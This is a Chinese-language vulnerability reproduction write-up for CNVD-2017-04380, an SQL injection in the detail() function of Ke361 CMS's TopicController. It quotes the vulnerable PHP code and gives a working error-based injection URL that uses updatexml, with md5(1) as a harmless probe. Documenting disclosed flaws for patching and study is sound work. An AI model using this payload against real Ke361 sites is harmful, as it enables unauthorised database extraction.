 # Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313233038062.png)

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![img](../../../.vuepress/public/img/1634130716694-90c53d57-e2ca-493b-b2bf-9818d32aa53a.png)

```php
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句,  通过报错注入可以获取数据库数据

```php
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](../../../.vuepress/public/img/1634131389913-54f72ef9-6d47-43b1-8a95-9ba529a652d5.png)

![img](../../../.vuepress/public/img/1634131412368-f024f92d-725a-43d0-9235-fdb720c0b8f7.png)